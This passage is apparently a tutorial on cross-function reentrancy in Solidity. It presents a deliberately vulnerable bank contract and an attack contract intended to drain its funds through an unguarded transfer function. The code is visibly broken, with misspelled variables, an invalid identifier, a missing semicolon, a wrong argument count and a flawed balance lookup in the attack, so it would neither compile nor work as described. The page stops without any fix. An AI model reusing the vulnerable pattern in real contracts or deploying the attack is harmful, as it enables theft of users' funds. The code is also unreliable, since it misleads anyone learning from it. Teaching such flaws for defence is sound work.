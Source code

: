 ## Cross Function Reentrancy

Lets go straight to an example contract

```solidity
//SPDX-License-Identifier:MIT

pragma solidity 0.8.18;

contract VulnerableBank {
    mapping(address => uint256) public balances;
    bool private locked;

    modifier nonReentrant () {
        require(!locked, "wait this function is still processing");
        locked = true;
        _;

        locked = false;

    }

    function deposit () external payable {
        require(msg.value > 0, "Deposit amount must be greater than 0");
        balances[msg.sender] += msg.value;


    }

    function withdraw(uint256 amount) external nonReentrant {
        uint256 bal = balances[msg.sender];
        require(bal >= amount, "Insuficient balance");

        (bool sucess, ) = payable(msg.sender).call{value: amount} ("");
        require(success, "withdraw failed");

        balances[msg.sender] -= amount;

    }

    function transfer(address to, uint256 amount)  external {
        balances[msg.sender] -= amount;
        balances[to] += ampount;
    }
}

```

lets look at this vulnerable bank  and try to see what could go wrong 

1. The withdraw is using a modifier with means that this time the contract was keen to make sure that the withdraw function could not be reentered but lets take a look at this Attack contract and how  we can attack and drain funds from this contract.

```solidity
//SPDX-License-Identifier:MIT

pragma solidity 0.8.18;

import {VulnerableBank} from './VulnerableBank.sol'; // be sure you have the correct directory

contract Attack {

    VulnerableBank public target;
    address immutable 1_owner;


    constructor (address _target) {
        target = VulnerableBank(_target);
        i_owner = msg.sender;

    }

    function deposit() external payable {
        target.deposit{value: msg.value}();

    }

    function withdraw() external {
        target.withdraw()
    }

    receive() external payable {
        uint256 bal = target.balances(address(target));
        target.transfer(i_owner, bal);
    }

}


```